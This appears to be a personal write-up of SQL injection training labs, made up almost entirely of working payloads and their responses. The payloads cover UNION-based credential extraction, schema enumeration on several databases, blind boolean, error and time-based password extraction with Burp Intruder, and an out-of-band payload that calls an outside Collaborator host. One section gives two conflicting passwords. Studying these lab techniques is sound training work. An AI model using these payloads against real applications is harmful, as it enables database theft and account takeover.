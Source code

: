 # SQL injection

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```

## Blind SQL injection vulnerabilities

### Blind SQL injection with conditional responses

Determine password length:
```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=6--;
```

Use Burp Suite Intruder (payload Brute-force `a-z0-9`) to get password one character at a time.
If the server response contains `Welcome back` then we know we guessed the character correctly.
```
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,3,1)='§a§'--;
...
```
Password is: `nqk8kg`

### Blind SQL injection with conditional errors

Determine password length:
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds with HTTP 500 then we know we guessed the character correctly.
This time I used attack type `Cluster bomb` and set 2 payloads right away - the first payload was a simple
number iterator and the second payload was Brute-force `a-z0-9`.
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```
Password is: `2req0w`

### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

### Blind SQL injection with time delays and information retrieval

Determine password length:
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sleep(5)+else+null+end+from+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds in more than 10 secs then we know guessed the character correctly.
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,§1§,1)='§a§')+then+pg_sleep(10)+else+null+end+from+users--;
```

Password is: `2req0w`
```
bu15v4
```

### Blind SQL injection with out-of-band interaction

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Blind SQL injection with out-of-band data exfiltration
TODO: Burp Suite Professional